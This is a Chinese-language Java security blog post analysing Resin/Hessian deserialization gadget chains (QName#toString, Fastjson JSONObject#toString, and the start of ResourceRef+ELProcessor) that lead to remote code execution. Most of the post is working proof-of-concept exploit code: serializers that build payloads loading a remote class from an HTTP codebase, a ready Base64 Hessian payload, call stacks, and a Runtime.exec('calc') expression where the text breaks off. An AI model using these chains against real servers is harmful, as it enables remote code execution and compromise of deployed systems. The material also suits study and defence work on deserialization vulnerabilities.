







+++
title= "Resin反序列化漏洞"
slug= "resin-deserialization-vuln"
description= ""
date= "2025-11-04T01:28:35+08:00"
lastmod= "2025-11-04T01:28:35+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

特么的，一开始因为想学习 jackson 反序列化漏洞，我发现有 gadget 和 hessian 差不多，然后看了 hessian 发现和这个差不多，man。😅而且网上参考好少...

## 简介

Resin是由CAUCHO公司开发的流行引擎，支持Servlets和JSP，速度极快。它内置HTTP/1.1 WEB服务器，不仅擅长处理动态内容，还能高效显示静态内容，性能接近Apache Server，所以等会还会涉及内存马的说法。

## 反序列化利用链

pom.xml 如下

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>TwiceReadObject</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
        <resin.version>4.0.64</resin.version>
        <javassist.version>3.28.0-GA</javassist.version>
        <tomcat.version>8.5.6</tomcat.version>
        <fastjson.version>1.2.83</fastjson.version>
    </properties>

    <dependencies>
        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>${javassist.version}</version>
        </dependency>

        <dependency>
            <groupId>com.caucho</groupId>
            <artifactId>resin</artifactId>
            <version>4.0.64</version>
            <exclusions>
                <exclusion>
                    <groupId>com.caucho</groupId>
                    <artifactId>javaee-16</artifactId>
                </exclusion>
            </exclusions>
        </dependency>

        <dependency>
            <groupId>org.apache.tomcat.embed</groupId>
            <artifactId>tomcat-embed-core</artifactId>
            <version>${tomcat.version}</version>
        </dependency>
        <dependency>
            <groupId>org.apache.tomcat.embed</groupId>
            <artifactId>tomcat-embed-el</artifactId>
            <version>${tomcat.version}</version>
        </dependency>
        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>${fastjson.version}</version>
        </dependency>

    </dependencies>
</project>
```

### Qname#toString

这条利用链是通过任意 toString 来触发的，sink 点为`Qname#toString`

```java
public String toString() {
    String name = null;

    for(int i = 0; i < this.size(); ++i) {
        String str = this.get(i);
        if (name != null) {
            try {
                name = this._context.composeName(str, name);
            } catch (NamingException var5) {
                name = name + "/" + str;
            }
        } else {
            name = str;
        }
    }

    return name == null ? "" : name;
}
```

他可以触发`this._context.composeName(str, name);`所以我们只需要去找一个合适的 _context 类即可，而看到这不难回想起打 jndi 注入，这里找到 ContinuationContext 类

```java
    public String composeName(String name, String prefix)
            throws NamingException {
        Context ctx = getTargetContext();
        return ctx.composeName(name, prefix);
    }
```

先看看 getTargetContext 方法

```java
protected Context getTargetContext() throws NamingException {
    if (contCtx == null) {
        if (cpe.getResolvedObj() == null)
            throw (NamingException)cpe.fillInStackTrace();

        contCtx = NamingManager.getContext(cpe.getResolvedObj(),
                                           cpe.getAltName(),
                                           cpe.getAltNameCtx(),
                                           env);
        if (contCtx == null)
            throw (NamingException)cpe.fillInStackTrace();
    }
    return contCtx;
}
```

如果 cpe.getResolvedObj() 是一个 Reference 对象，它就会触发JNDI的引用解析过程。

```java
public ResolveResult
        resolveToClass(Name name, Class<? extends Context> contextType)
        throws NamingException
    {
        if (cpe.getResolvedObj() == null)
            throw (NamingException)cpe.fillInStackTrace();

        Resolver res = NamingManager.getResolver(cpe.getResolvedObj(),
                                                 cpe.getAltName(),
                                                 cpe.getAltNameCtx(),
                                                 env);
        if (res == null)
            throw (NamingException)cpe.fillInStackTrace();
        return res.resolveToClass(name, contextType);
    }
```

接着看 getContext 方法

```java
static Context getContext(Object obj, Name name, Context nameCtx,
                              Hashtable<?,?> environment) throws NamingException {
        Object answer;

        if (obj instanceof Context) {
            // %%% Ignore environment for now.  OK since method not public.
            return (Context)obj;
        }

        try {
            answer = getObjectInstance(obj, name, nameCtx, environment);
        } catch (NamingException e) {
            throw e;
        } catch (Exception e) {
            NamingException ne = new NamingException();
            ne.setRootCause(e);
            throw ne;
        }

        return (answer instanceof Context)
            ? (Context)answer
            : null;
    }
```

需要一个 Hashtable 对象，然后跟进 getObjectInstance，其中 ref 是被解析出来的对象





```java
    public Class<?> loadClass(String className, String codebase)
            throws ClassNotFoundException, MalformedURLException {

        ClassLoader parent = getContextClassLoader();
        ClassLoader cl =
                 URLClassLoader.newInstance(getUrlArray(codebase), parent);

        return loadClass(className, cl);
    }
```

`URLClassLoader.newInstance(getUrlArray(codebase), parent);`会进行远程类的加载

```java
package org.example.resin;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.naming.QName;
import com.sun.org.apache.xpath.internal.objects.XString;

import javax.naming.CannotProceedException;
import javax.naming.Context;
import javax.naming.Reference;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Hashtable;

public class toStringQnamePoc {
    public static void main(String[] args) throws Exception {
        Reference refObj = new Reference("Eval","Eval","http://127.0.0.1:8000/");
        Class<?> clazz = Class.forName("javax.naming.spi.ContinuationContext");
        Constructor<?> constructor = clazz.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        constructor.setAccessible(true);

        CannotProceedException cpe = new CannotProceedException();
        cpe.setResolvedObj(refObj);

        Hashtable<?, ?> hashtable = new Hashtable<>();
        Context continuationContext = (Context) constructor.newInstance(cpe, hashtable);
        QName qname = new QName(continuationContext,"aaa","bbb");

        String unhash = unhash(qname.hashCode());
        XString xstring = new XString(unhash);

        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy", xstring);
        map1.put("zZ", qname);
        map2.put("zZ", xstring);
        map2.put("yy", qname);
        Hashtable table = new Hashtable();
        table.put(map1, "1");
        table.put(map2, "2");

        byte[] payload = Hessian2_serialize(table);
        Hessian2_unserialize(payload);
    }

    public static String unhash ( int hash ) {
        int target = hash;
        StringBuilder answer = new StringBuilder();
        if ( target < 0 ) {
            answer.append("\\u0915\\u0009\\u001e\\u000c\\u0002");

            if ( target == Integer.MIN_VALUE )
                return answer.toString();
            target = target & Integer.MAX_VALUE;
        }

        unhash0(answer, target);
        return answer.toString();
    }


    private static void unhash0 ( StringBuilder partial, int target ) {
        int div = target / 31;
        int rem = target % 31;

        if ( div <= Character.MAX_VALUE ) {
            if ( div != 0 )
                partial.append((char) div);
            partial.append((char) rem);
        }
        else {
            unhash0(partial, div);
            partial.append((char) rem);
        }
    }

    public static byte[] Hessian2_serialize(Object o) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(baos);
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        hessian2Output.writeObject(o);
        hessian2Output.flush();
        return baos.toByteArray();
    }

    public static Object Hessian2_unserialize(byte[] bytes) throws IOException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        Hessian2Input hessian2Input = new Hessian2Input(bais);
        Object o = hessian2Input.readObject();
        return o;
    }
}
```

调用栈如下

```java
at Eval.<clinit>(Eval.java:12)
at java.lang.Class.forName0(Class.java:-1)
at java.lang.Class.forName(Class.java:348)
at com.sun.naming.internal.VersionHelper12.loadClass(VersionHelper12.java:72)
at com.sun.naming.internal.VersionHelper12.loadClass(VersionHelper12.java:87)
at javax.naming.spi.NamingManager.getObjectFactoryFromReference(NamingManager.java:158)
at javax.naming.spi.NamingManager.getObjectInstance(NamingManager.java:319)
at javax.naming.spi.NamingManager.getContext(NamingManager.java:439)
at javax.naming.spi.ContinuationContext.getTargetContext(ContinuationContext.java:55)
at javax.naming.spi.ContinuationContext.composeName(ContinuationContext.java:180)
at com.caucho.naming.QName.toString(QName.java:353)
at com.sun.org.apache.xpath.internal.objects.XString.equals(XString.java:392)
at java.util.AbstractMap.equals(AbstractMap.java:472)
at java.util.Hashtable.put(Hashtable.java:469)
at com.caucho.hessian.io.MapDeserializer.readMap(MapDeserializer.java:114)
at com.caucho.hessian.io.SerializerFactory.readMap(SerializerFactory.java:571)
at com.caucho.hessian.io.Hessian2Input.readObject(Hessian2Input.java:2100)
at org.example.resin.toStringQnamePoc.Hessian2_unserialize(toStringQnamePoc.java:92)
at org.example.resin.toStringQnamePoc.main(toStringQnamePoc.java:46)
```

看这个调用栈确实是反序列化也能RCE了，但是我还是不放心（仅仅序列化也可弹出计算器），所以我又写了序列化和反序列化分开的

序列化

```java
package org.example.resin;

import com.caucho.hessian.io.Hessian2Output;
import com.caucho.naming.QName;
import com.sun.org.apache.xpath.internal.objects.XString;

import javax.naming.CannotProceedException;
import javax.naming.Context;
import javax.naming.Reference;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Constructor;
import java.util.Base64;
import java.util.HashMap;
import java.util.Hashtable;

import static org.example.resin.toStringQnamePoc.unhash0;

public class test1 {
    public static void main(String[] args) throws Exception {
        Object payload = buildExploitObject();
        byte[] hessianBytes = serializeToHessian2(payload);
        String base64Payload = Base64.getEncoder().encodeToString(hessianBytes);
        System.out.println(base64Payload);
    }

    private static Object buildExploitObject() throws Exception {
        Reference refObj = new Reference("Eval", "Eval", "http://127.0.0.1:8000/");
        Class<?> clazz = Class.forName("javax.naming.spi.ContinuationContext");
        Constructor<?> constructor = clazz.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        constructor.setAccessible(true);

        CannotProceedException cpe = new CannotProceedException();
        cpe.setResolvedObj(refObj);

        Hashtable<?, ?> hashtable = new Hashtable<>();
        Context continuationContext = (Context) constructor.newInstance(cpe, hashtable);
        QName qname = new QName(continuationContext, "aaa", "bbb");

        String unhash = unhash(qname.hashCode());
        XString xstring = new XString(unhash);

        HashMap<Object, Object> map1 = new HashMap<>();
        HashMap<Object, Object> map2 = new HashMap<>();
        map1.put("yy", xstring);
        map1.put("zZ", qname);
        map2.put("zZ", xstring);
        map2.put("yy", qname);

        Hashtable<Object, Object> table = new Hashtable<>();
        table.put(map1, "1");
        table.put(map2, "2");

        return table;
    }

    private static String unhash(int hash) {
        int target = hash;
        StringBuilder answer = new StringBuilder();
        if ( target < 0 ) {
            answer.append("\\u0915\\u0009\\u001e\\u000c\\u0002");

            if ( target == Integer.MIN_VALUE )
                return answer.toString();
            target = target & Integer.MAX_VALUE;
        }

        unhash0(answer, target);
        return answer.toString();
    }

    private static byte[] serializeToHessian2(Object o) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(baos);
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        hessian2Output.writeObject(o);
        hessian2Output.flush();
        return baos.toByteArray();
    }
}
```

反序列化

```java
package org.example.resin;

import com.caucho.hessian.io.Hessian2Input;
import java.io.ByteArrayInputStream;
import java.io.IOException;
import java.util.Base64;

public class test2 {
    public static void main(String[] args) throws Exception {
        String base64Payload = "TRNqYXZhLnV0aWwuSGFzaHRhYmxlSAJ6WkMwMWNvbS5zdW4ub3JnLmFwYWNoZS54cGF0aC5pbnRlcm5hbC5vYmplY3RzLlhTdHJpbmeSBW1fb2JqCG1fcGFyZW50YATrqIcKAhNOAnl5Qxdjb20uY2F1Y2hvLm5hbWluZy5RTmFtZZIIX2NvbnRleHQGX2l0ZW1zYUMwJGphdmF4Lm5hbWluZy5zcGkuQ29udGludWF0aW9uQ29udGV4dJMDY3BlA2Vudgdjb250Q3R4YkMwI2phdmF4Lm5hbWluZy5DYW5ub3RQcm9jZWVkRXhjZXB0aW9unA1yb290RXhjZXB0aW9uDWRldGFpbE1lc3NhZ2UFY2F1c2UQcmVtYWluaW5nTmV3TmFtZQtlbnZpcm9ubWVudAdhbHROYW1lCmFsdE5hbWVDdHgMcmVzb2x2ZWROYW1lC3Jlc29sdmVkT2JqDXJlbWFpbmluZ05hbWUKc3RhY2tUcmFjZRRzdXBwcmVzc2VkRXhjZXB0aW9uc2NOTlGVTk5OTk5DFmphdmF4Lm5hbWluZy5SZWZlcmVuY2WUCWNsYXNzTmFtZQxjbGFzc0ZhY3RvcnkUY2xhc3NGYWN0b3J5TG9jYXRpb24FYWRkcnNkBEV2YWwERXZhbBZodHRwOi8vMTI3LjAuMC4xOjgwMDAvcBBqYXZhLnV0aWwuVmVjdG9yTnIcW2phdmEubGFuZy5TdGFja1RyYWNlRWxlbWVudEMbamF2YS5sYW5nLlN0YWNrVHJhY2VFbGVtZW50lA5kZWNsYXJpbmdDbGFzcwptZXRob2ROYW1lCGZpbGVOYW1lCmxpbmVOdW1iZXJlF29yZy5leGFtcGxlLnJlc2luLnRlc3QxEmJ1aWxkRXhwbG9pdE9iamVjdAp0ZXN0MS5qYXZhuGUXb3JnLmV4YW1wbGUucmVzaW4udGVzdDEEbWFpbgp0ZXN0MS5qYXZhpXAwJmphdmEudXRpbC5Db2xsZWN0aW9ucyRVbm1vZGlmaWFibGVMaXN0TZBaTnoDYWFhA2JiYloBMkgCeXlRkgJ6WlGTWgExWg=="; // 替换为生成的 Base64 数据
        byte[] hessianBytes = Base64.getDecoder().decode(base64Payload);
        Hessian2_unserialize(hessianBytes);
    }

    public static Object Hessian2_unserialize(byte[] bytes) throws IOException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        Hessian2Input hessian2Input = new Hessian2Input(bais);
        Object o = hessian2Input.readObject();
        return o;
    }
}
```



### JSON#toString

在`hessian2input#readString`我们如果加一个合适的值就可以触发到 expect 方法，也就到了这段

```java
return obj != null ? this.error("expected " + expect + " at 0x" + Integer.toHexString(ch & 255) + " " + obj.getClass().getName() + " (" + obj + ")\n  " + context + "") : this.error("expected " + expect + " at 0x" + Integer.toHexString(ch & 255) + " null");
```

这里之前做bladeCC的时候学到过，会隐式调用 toString，Fastjson的`com.alibaba.fastjson.JSONObject.toString`方法可以调用任意类的 getter 方法

```java
    public String toString() {
        return this.toJSONString();
    }

    public String toJSONString() {
        SerializeWriter out = new SerializeWriter();

        String var2;
        try {
            (new JSONSerializer(out)).write(this);
            var2 = out.toString();
        } finally {
            out.close();
        }

        return var2;
    }
```

接着到了

```java
    public Hashtable<?,?> getEnvironment() throws NamingException {
        Context ctx = getTargetContext();
        return ctx.getEnvironment();
    }
```

然后就和上面的链子一致了，但是在此之前，我们还需要到`Hessian2Input#readString`，由于对象是 Map 所以序列化的时候必然写入的是 77 tag，所以我们只需要确保能够触发`Hessian2Input#readObjectDefinition`



看到`Hessian2Input#readObject`



所以是加`baos.write(67);`

```java
package org.example.resin;

import com.alibaba.fastjson.JSONObject;
import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;

import javax.naming.CannotProceedException;
import javax.naming.Reference;
import javax.naming.directory.DirContext;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.lang.reflect.Constructor;
import java.util.Hashtable;

public class ContinuationDirContextFJPoc {
    public static void main(String[] args) throws Exception {
        Reference refObj = new Reference("Eval","Eval","http://127.0.0.1:8000/");
        Class<?> clazz = Class.forName("javax.naming.spi.ContinuationDirContext");
        Constructor<?> constructor = clazz.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        constructor.setAccessible(true);

        CannotProceedException cpe = new CannotProceedException();
        cpe.setResolvedObj(refObj);

        DirContext ctx = (DirContext) constructor.newInstance(cpe, new Hashtable<>());
        JSONObject jsonObject = new JSONObject();
        jsonObject.put("test",ctx);

        byte[] payload = Hessian2_serialize(jsonObject);
        Hessian2_unserialize(payload);
    }

    public static byte[] Hessian2_serialize(Object o) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(baos);
        baos.write(67);
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        hessian2Output.writeObject(o);
        hessian2Output.flush();
        return baos.toByteArray();
    }

    public static Object Hessian2_unserialize(byte[] bytes) throws IOException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        Hessian2Input hessian2Input = new Hessian2Input(bais);
        Object o = hessian2Input.readObject();
        return o;
    }
}
```

调用栈

```java
at Eval.<clinit>(Eval.java:16)
at java.lang.Class.forName0(Class.java:-1)
at java.lang.Class.forName(Class.java:348)
at com.sun.naming.internal.VersionHelper12.loadClass(VersionHelper12.java:72)
at com.sun.naming.internal.VersionHelper12.loadClass(VersionHelper12.java:87)
at javax.naming.spi.NamingManager.getObjectFactoryFromReference(NamingManager.java:158)
at javax.naming.spi.NamingManager.getObjectInstance(NamingManager.java:319)
at javax.naming.spi.NamingManager.getContext(NamingManager.java:439)
at javax.naming.spi.ContinuationContext.getTargetContext(ContinuationContext.java:55)
at javax.naming.spi.ContinuationContext.getEnvironment(ContinuationContext.java:197)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at com.alibaba.fastjson.util.FieldInfo.get(FieldInfo.java:451)
at com.alibaba.fastjson.serializer.FieldSerializer.getPropertyValueDirect(FieldSerializer.java:110)
at com.alibaba.fastjson.serializer.JavaBeanSerializer.write(JavaBeanSerializer.java:196)
at com.alibaba.fastjson.serializer.MapSerializer.write(MapSerializer.java:251)
at com.alibaba.fastjson.serializer.JSONSerializer.write(JSONSerializer.java:275)
at com.alibaba.fastjson.JSON.toJSONString(JSON.java:799)
at com.alibaba.fastjson.JSON.toString(JSON.java:793)
at java.lang.String.valueOf(String.java:2994)
at java.lang.StringBuilder.append(StringBuilder.java:131)
at com.caucho.hessian.io.Hessian2Input.expect(Hessian2Input.java:2865)
at com.caucho.hessian.io.Hessian2Input.readString(Hessian2Input.java:1407)
at com.caucho.hessian.io.Hessian2Input.readObjectDefinition(Hessian2Input.java:2163)
at com.caucho.hessian.io.Hessian2Input.readObject(Hessian2Input.java:2105)
at org.example.resin.ContinuationDirContextFJPoc.Hessian2_unserialize(ContinuationDirContextFJPoc.java:47)
at org.example.resin.ContinuationDirContextFJPoc.main(ContinuationDirContextFJPoc.java:31)
```

### ResouceRef+ELProccessor

跟进



就会反射



poc 如下，一开始写的会弹出两个计算器，其实只需要像我一样交换一下`table.put(map2, "2");`就可以静默处理了

```java
package org.example.resin;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.naming.QName;
import com.sun.org.apache.xpath.internal.objects.XString;
import org.apache.naming.ResourceRef;

import javax.naming.CannotProceedException;
import javax.naming.Context;
import javax.naming.StringRefAddr;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Hashtable;

public class resouceRefELProccessorPoc {
    public static void main(String[] args) throws Exception {
        String x = "java.lang.Runtime.getRuntime().exec(\\\"calc\\\")";
